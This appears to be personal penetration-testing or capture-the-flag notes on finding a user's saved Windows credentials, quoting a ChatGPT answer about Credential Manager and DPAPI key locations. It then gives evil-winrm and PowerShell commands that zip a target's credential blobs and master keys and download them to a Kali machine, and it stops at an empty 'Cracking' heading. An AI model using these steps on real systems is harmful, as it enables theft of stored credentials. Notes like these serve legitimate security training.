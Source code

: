 ## Looking for Steph's creds

ChatGPT:
On a Windows box, **"old credentials"** or cached credentials can be found in several places depending on what type of credentials you mean (domain, local, application, or network). Here's a structured overview:

------------------------------------------------------------------------

### **1. Windows Credential Manager / Vault**

- **Path:**
  `C:\Users\<User>\AppData\Roaming\Microsoft\Credentials C:\Users\<User>\AppData\Roaming\Microsoft\Protect`
- Stores:
  - Saved RDP credentials (`mstsc`)
  - VPN credentials
  - Some app passwords (Teams, Edge, etc.)
- Encrypted with **DPAPI** tied to the user account.

#### Credentials hold blobs:

Each blob represents a saved credential entry (RDP credential, network share, saved generic credential, etc.). The blob itself is **encrypted** with DPAPI (the Data Protection API) using a key derived from the user's logon secrets (and sometimes machine keys).

#### Protect

Contains the **user's DPAPI master key(s)** --- these are the keys that can decrypt the credential blobs.
\### Download
The recommended way to download credentials using Evil-Winrm is to zip them first (there is no download all, and not working with hidden files)
make variables:

    # run on target (evil-winrm shell)
    $src1 = "$env:APPDATA\Microsoft\Credentials\"
    $src2 = "$env:APPDATA\Microsoft\Protect\"
    $dst1 = "C:\Temp\creds.zip"
    $dst2 = "C:\Temp\keys.zip"

Compress using this complicated poweshell zip command (ChatGPT)

    powershell -Command "Add-Type -AssemblyName System.IO.Compression.FileSystem; [IO.Compression.ZipFile]::CreateFromDirectory('$src1','$dst1')"

Go to the C:`\Temp `{=tex}directory and download

    C:\Temp> download *

It will end up in the Kali \~/home dir

## Cracking
